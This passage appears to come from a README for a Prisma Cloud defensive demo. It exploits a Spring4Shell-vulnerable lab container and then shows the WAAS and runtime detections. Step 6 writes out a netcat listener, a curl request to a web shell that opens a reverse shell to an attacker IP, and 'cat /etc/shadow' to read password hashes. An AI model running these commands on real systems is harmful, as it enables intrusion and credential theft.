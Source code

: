 Assuming you have successfuly setup an ECR repo and scanning, create the following:
1. Go to **Compute > Defend > Compliance > Trusted Images > Trust Groups**
2. Click **+ Add group**
3. Create new trust group - see [Trusted images docs](https://docs.paloaltonetworks.com/prisma/prisma-cloud/prisma-cloud-admin-compute/compliance/trusted_images)
4. Go to the **Policy** tab under Trusted Images and if not already, click switch next to **Trusted images rules** to enable.
5. Click **+ Add rule** and again refer to docs to create a new rule.
6. For performing the demo, **'Disable'** the rule temporarily, under **Actions** and clicking the 3 dots. 
7. Additionaly setup docker/AWS credentails on the spring4shell instance in order to pull images from your registry. (TODO - add detail here)

## Pre-Demo verification Steps
1. Verify on **Compute > Radars > Container** screen, the new vulnerable container has completed learning mode and shows the red firewall with a line through it, indicating it is an unprotected Web App
    - This make take 10-20 mins after installing the Defender to show up.
2. Verify in **Compute > Monitor > Compliance > Cloud Discovery > Your Credentail/EC2 Service Line** shows the expected number of devices Defended.  The Kali Attacker machine should not be.  Ensure to state this in the demo if you show this.

## Begin Demo
1. If you left the WAAS Rule(s) Disabled and you pre-checked the Unprotected Web App icon is present, then first Navigate to **Compute > Radars > Containers** and show the red firewall with a line through it. Click the **vuln_app_app** and highlight that it was recognized as a **Unprotected Web App**
2. If the red firewall icon is not present (Prisma Cloud can take up to 30 mins. to recognize this), SKIP over highlighting this.
3. Show vulnerabilities and Compliance issue.
4. Either from the Container screen itself, Click the **Defend** button OR or through **Defend > WAAS**, go to the **Host** tab and Enable the WAAS rule.  Make sure you enable the **Host WAAS Rule, not a Container one**.
5. Show that the WAAS rule is only in Alert mode for now.
6. Run the attack 
    - `bash /tmp/exploit.sh`
    - Remotely Install packages, install netcat with curl commands
    - Open 2nd terminal and run `nc -lvnp 9001`
    - Send the payload to gain a reverse shell 
    ```
    curl --output - http://<Vuln App IP Address>/shell.jsp?cmd=nc%20-e%20/bin/bash%2010.0.2.160%209001
    ```
    - Run some commands in the reverse shell terminal.
7. Discuss what the attacker was able to do.
    - i.e. Remote Code Execution, run commands like `cat /etc/shadow` to gain passwords.
    - Gain a reverse shell and run commands directly

### Show the events
1. Navigate to **Compute > Monitor > Events > WAAS for hosts** and scroll to bottom.  Should see events for these attacks.  Discuss both.
    - Code Injection
    - Local File Inclusion
2. Navigate to **Compute > Radars > Hosts** Locate the new Host and should show red hue around.  Click and show that it has been involved in an Incident.
3. Navigate to **Compute > Monitor > Runtime > Incident Explorer** Should see incidents for these attacks.
    - Reverse Shell
    - Lateral Movement
4. Discuss both, including viewing Forensic Data, showing the command in the Events
